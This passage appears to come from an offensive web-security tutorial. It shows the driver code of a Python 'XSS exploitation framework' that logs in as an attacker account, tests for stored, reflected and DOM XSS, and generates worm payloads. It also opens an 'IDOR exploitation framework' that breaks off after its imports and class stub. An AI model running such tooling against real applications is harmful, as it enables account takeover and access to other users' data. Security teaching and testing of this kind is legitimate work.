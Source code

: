 ```python
# Usage example
if __name__ == "__main__":
    BASE_URL = "http://localhost:3000"
    
    # Get authentication token
    def get_auth_token(base_url, email, password):
        login_data = {"email": email, "password": password}
        response = requests.post(f"{base_url}/api/auth/login", json=login_data)
        return response.json().get('token') if response.status_code == 200 else None
    
    token = get_auth_token(BASE_URL, "attacker@test.com", "password123")
    
    if token:
        # Initialize XSS framework
        xss_framework = XSSExploitationFramework(BASE_URL, token)
        
        try:
            # Perform comprehensive XSS testing
            results = xss_framework.comprehensive_xss_test()
            
            # Save results
            with open('xss_exploitation_results.json', 'w') as f:
                json.dump(results, f, indent=2, default=str)
            
            print(f"\n=== XSS Testing Complete ===")
            print(f"Discovered endpoints: {len(results['discovery'])}")
            print(f"Stored XSS vulnerabilities: {len(results['stored_xss'])}")
            print(f"Reflected XSS vulnerabilities: {len(results['reflected_xss'])}")
            print(f"DOM XSS vulnerabilities: {len(results['dom_xss'])}")
            print(f"Worm payloads created: {len(results['worm_payloads'])}")
            print(f"Results saved to xss_exploitation_results.json")
            
        finally:
            xss_framework.cleanup()
    else:
        print("Authentication failed")
```

## Tutorial 3: IDOR Exploitation Framework

### Phase 1: IDOR Discovery and Enumeration

```python
#!/usr/bin/env python3
"""
Comprehensive IDOR Exploitation Framework
"""

import requests
import threading
import json
from concurrent.futures import ThreadPoolExecutor, as_completed
import time
import random

class IDORExploitationFramework:
    def __init__(self, base_url, auth_tokens):
        self.base_url = base_url
        self.auth_tokens = auth_tokens  # Dictionary of user tokens
        self.session = requests.Session()
        
    def discover_idor_endpoints(self):
        """Discover potential IDOR vulnerable endpoints"""
```
